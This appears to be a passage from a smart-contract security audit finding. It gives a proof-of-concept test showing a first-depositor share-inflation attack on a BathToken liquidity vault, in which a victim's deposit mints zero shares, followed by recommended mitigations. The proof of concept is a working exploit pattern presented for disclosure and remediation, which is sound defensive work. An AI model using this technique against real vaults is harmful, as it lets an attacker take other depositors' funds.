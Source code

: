 ```solidity
it("Victim receives 0 shares", async () => {
  // 1. Attacker deposits 1 testCoin first when creating the liquidity pool
  const initialLiquidityNew = 1;
  const initialLiquidityExistingBathToken = ethers.utils.parseUnits("100", decimals);

  // Approve DAI and testCoin for bathHouseInstance
  await testCoin.approve(bathHouseInstance.address, initialLiquidityNew, {
      from: attacker,
  });
  await DAIInstance.approve(
      bathHouseInstance.address,
      initialLiquidityExistingBathToken,
      { from: attacker }
  );

  // Call open creation function, attacker deposits only 1 testCoin
  const desiredPairedAsset = await DAIInstance.address;
  await bathHouseInstance.openBathTokenSpawnAndSignal(
      await testCoin.address,
      initialLiquidityNew,
      desiredPairedAsset,
      initialLiquidityExistingBathToken,
      { from: attacker }
  );

  // Retrieve resulting bathToken address
  const newbathTokenAddress = await bathHouseInstance.getBathTokenfromAsset(testCoin.address);
  const _newBathToken = await BathToken.at(newbathTokenAddress);

  // 2. Attacker deposits large amount of testCoin into liquidity pool
  let attackerAmt = ethers.utils.parseUnits("1000000", decimals);
  await testCoin.approve(newbathTokenAddress, attackerAmt, {from: attacker});
  await testCoin.transfer(newbathTokenAddress, attackerAmt, {from: attacker});

  // 3. Victim deposits a smaller amount of testCoin, receives 0 shares
  // In this case, we use (1 million - 1) testCoin
  let victimAmt = ethers.utils.parseUnits("999999", decimals);
  await testCoin.approve(newbathTokenAddress, victimAmt, {from: victim});
  await _newBathToken.deposit(victimAmt, victim, {from: victim});

  assert.equal(await _newBathToken.balanceOf(victim), 0);
});
```

## Recommended Mitigation Steps
* [Uniswap V2 solved this problem by sending the first 1000 LP tokens to the zero address](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124). The same can be done in this case i.e. when `totalSupply() == 0`, send the first min liquidity LP tokens to the zero address to enable share dilution.
* In `_deposit()`, ensure the number of shares to be minted is non-zero: 
`require(shares != 0, "No shares minted");`
